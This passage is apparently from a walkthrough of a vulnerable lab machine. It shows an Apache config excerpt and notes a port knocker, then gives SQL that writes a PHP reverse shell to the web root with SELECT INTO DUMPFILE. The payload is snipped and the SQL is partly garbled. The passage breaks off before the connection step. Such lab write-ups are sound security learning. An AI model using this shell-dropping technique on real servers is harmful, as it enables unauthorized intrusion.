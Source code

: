 ```
    ErrorLog /var/log/apache2/error.log

    # Possible values include: debug, info, notice, warn, error, crit,
    # alert, emerg.
    LogLevel warn

    CustomLog /var/log/apache2/access.log combined

    Alias /doc/ "/usr/share/doc/"
    <Directory "/usr/share/doc/">
        Options Indexes MultiViews FollowSymLinks
        AllowOverride None
        Order deny,allow
        Deny from all
        Allow from 127.0.0.0/255.0.0.0 ::1/128
    </Directory>

</VirtualHost>
```

Now we can execute commands on the backend:

{{< figure src="/images/posts/2012/hrt2_6.jpg" >}}

As you can see, most everything in `/var/www/` is owned by root, which would explain our inability to write anywhere.  The ownership of `configuration.php` would also explain our ability to retrieve it.

Another interesting bit was found in user p0wnbox's download's folder.  knockknock-0.7.tar.gz.

{{< figure src="/images/posts/2012/hrt2_7.jpg" >}}

We can't yet read the configuration file (we're www-data), but it appears that a port knocker is running.  This is likely why I couldn't immediately connect to the :666 Joomla site.  Interesting.

Let's drop a reverse shell onto the box the same way we did the command access. 

```
CREATE TABLE bdshell(
Sauce TEXT
);

INSERT INTO bdshell
VALUES(INSERT INTO shell
VALUES(
[SNIP]
);

SELECT *
INTO DUMPFILE '/var/www/bd.php'
FROM bdshell;
```

The snipped area from the insert is just a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), stripped of all apostrophes.  We can now connect to it like so:
